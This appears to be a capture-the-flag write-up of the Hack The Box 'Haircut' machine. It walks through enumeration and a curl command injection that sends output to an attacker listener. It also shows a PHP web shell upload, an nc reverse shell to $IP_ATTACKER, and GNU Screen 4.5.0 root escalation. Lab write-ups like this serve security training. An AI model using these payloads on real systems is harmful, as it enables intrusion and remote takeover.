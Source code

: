 # htb-haircut
This is my [Hack the box](https://www.hackthebox.eu/)'s Haircut machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.24

Difficulty: Medium

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.24`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/haircut# nmap -sC -sV -oN haircut.nmap 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 13:39 EDT
Nmap scan report for 10.10.10.24
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

The web app running on port 80 is just an image.

Initial directories enumeration with the common list:

```
root@kali:~/htb/haircut# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u ${HAIRCUT}
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:55:47 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
===============================================================
2020/05/24 13:56:26 Finished
===============================================================
```

Interesting, there's an `/uploads` directory. Despite it does not seem very useful now, it may come handy in the future.

After trying with several other lists, finally this one got a more intereseting result:

```
root@kali:~/htb/haircut# gobuster dir --url 10.10.10.24 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/24 15:23:49 Starting gobuster
===============================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```

The page `/exposed.php` has a text input, and when passing a URL it displays on screen the result of curling it. I tried to inject some commands but some symbols/keywords were blocked by the back-end e.g. &, ;, |, python and nc. Curl flags were not blocked, though.

## Exploitation
Checking `curl` man page for ways to get more information on the system or executing arbitrary code, I thought that using curl's request body (-d) could be an acceptable way of transmitting info to a listener. By leveraging backticks, commands can be executed and their results would be sent back to our listener.

Set up listener in attacker machine: 
```
nc -lvp 4444
```

Commands now can be executed from the input of the `/exposed.php` page as follows, and the result of the executed command will be passed as data to the listener:
```
$IP_ATTACKER:4444 -d "`command goes here`"
```
With this we can get the following:
- `whoami` returns `www-data`.
- It is possible to even get the user flag already!: ```cat /home/maria/Desktop/user``` (always check `/home` for getting users)

Let's try now to get a more steady shell. See what files/folders are present:
```
ls -alh
```

In the listener:
```
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

It seems `uploads` may be a good place to place a web shell as `www-data` has write permissions on it. I'm going to use a PHP web shell called `Predator.php` present in this repo https://github.com/JohnTroony/php-webshells.git. Note that I use that one because I wanted to check it out, but other much simpler ones would be enough.

The first step to copy the shell into the target server, is to make the shell "curleable" by exposing it through an http server in the attacker:
```
$ cd php-webshells
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And now from `/exposed.php` we curl it sending the file to `/uploads` leveraging the `-o` (output file) flag:
```
10.10.14.23:8000/Predator.php -o uploads/Predator.php
```

The shell is accessible from `uploads/Predator.php`, so let's set up a reverse shell using it.

Set `nc` listener in the attacker to handle the reverse shell:
```
nc -lvp 4444
```

The web shell allows the user to execute in the target system. Connect to the attacker as follows:
```
nc $IP_ATTACKER 4444 -e /bin/bash
```

Upgrade shell to more interactive one:
```
python3 -c "import pty; pty.spawn('/bin/bash');"
```

By running `LinEnum.sh` (copied to the target machine by setting up a Python http server as before), it can be noticed that there's a suspicious SUID executable in /usr/bin/screen-4.5.0, that turns out to be a vulnerable version that allows to escalate privileges:
```
$ searchsploit screen 4.5.0
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation              | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)        | linux/local/41152.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I'd encourage you to first check the PoC to see what's going on, basically it is possible to create a file owned by root that can be edited by our group (www-data in this case) which can be used for privilege escalation.

When trying to execute the script (first exploit listed) it's noticeable that it needs some manual action to be functional:
- Change the way in which the script creates the .c files. It does is using `cat` and it does not work properly and adds more lines to the file that is not C code and naturally fails afterwards.
- ```gcc``` fails to compile as it does not find `cc1`. By doing `locate cc1` we see this is its location: `/usr/lib/gcc/x86_64-linux-gnu/5`. Adding that to the path and trying again did the trick.

After completing these manual actions, a root shell is popped after executing the script:
```
# whoami
whoami
root
```
